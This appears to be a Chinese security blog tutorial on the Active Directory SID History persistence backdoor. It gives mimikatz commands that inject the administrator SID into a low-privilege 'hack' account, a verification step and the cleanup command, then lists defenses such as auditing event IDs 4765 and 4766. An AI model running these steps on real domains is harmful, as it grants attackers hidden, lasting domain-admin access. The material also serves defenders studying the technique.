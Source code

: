 **目录**

[SID History](#t0 "SID History")

[mimikatz添加SID History后门](#t1 "mimikatz添加SID History后门")

[SID History域后门防御措施](#t2 "SID History域后门防御措施")

* * *

SID History
-----------

每个用户都有自己的SID。SID的作用主要是跟踪安全主体控制用户连接资源时的[访问权限](https://so.csdn.net/so/search?q=%E8%AE%BF%E9%97%AE%E6%9D%83%E9%99%90&spm=1001.2101.3001.7020)。SID History是在域迁移过程中需要使用的一个属性。

如果将A域中的域用户迁移到B域中，那么在B域中该用户的SID会随之改变，进而影响迁移后用户的权限，导致迁移后的用户不能访问本来可以访问的资源。SID History的作用是在域迁移过程中保持域用户的访问权限，即如果迁移后用户的SID改变了，系统会将其原来的SID添加到迁移后用户的SID History属性中，使迁移后的用户保持原有权限、能够访问其原来可以访问的资源。使用mimikatz，可以将SID History属性添加到域中任意用户的SID History属性中。在实战中，如果获得了域管理员权限，则可以将SID History作为实现持久化的方法。

### mimikatz添加SID History后门

**第一步：**打开mimikatz，将administrator的SID添加到恶意域用户 hack 的SID History属性中。需要注意的是，在使用mimikatz注入SID之前，需要使用 sid::patch 命令修复NTDS服务，否则无法将高权限的SID注入低权限用户的SID History属性；mimikatz在2.1版本后，将 misc:addsid 模块添加到了 sid:add 模块下。

```
privilege::debug      
sid::patch      
sid::add /sam:hack /new:administrator     #将administrator的SID添加到hack的SID History属性中
```


![](https://img-blog.csdnimg.cn/20200218195059949.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**第二部：**使用PowerShell查看test用户的SID History

```
Import-Module activedirectory      
Get-ADUser hack -Properties sidhistory
```


![](https://img-blog.csdnimg.cn/20200218195211537.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**第三步：**使用域用户hack登录系统，测试其是否具有administrator用户的权限，我们这里列出域控的C盘。

![](https://img-blog.csdnimg.cn/20200218195603484.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

SID History域后门防御措施
------------------

在给出具体的防御措施之前，我们分析一下SID History域后门的特点

*   在控制域控后，可以通过注入SID History属性完成持久化任务
*   拥有高权限SID 的用户，可以使用PowerShell远程导出域控制器的ntds.dit
*   如果不再需要通过SID History属性实现持久化，可以在mimikatz中执行命令“sid::clear /sam:username”，清除SID History属性。

**SID History域后门的防御措施如下：**

*   经常查看域用户中SID 为500的用户
*   完成域迁移工作后，对有相同SID History属性的用户进行检查
*   定期检查ID为4765和4766的日志。4765位将SID History属性添加到用户的日志。4766为将SID History属性添加到用户失败的日志。

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)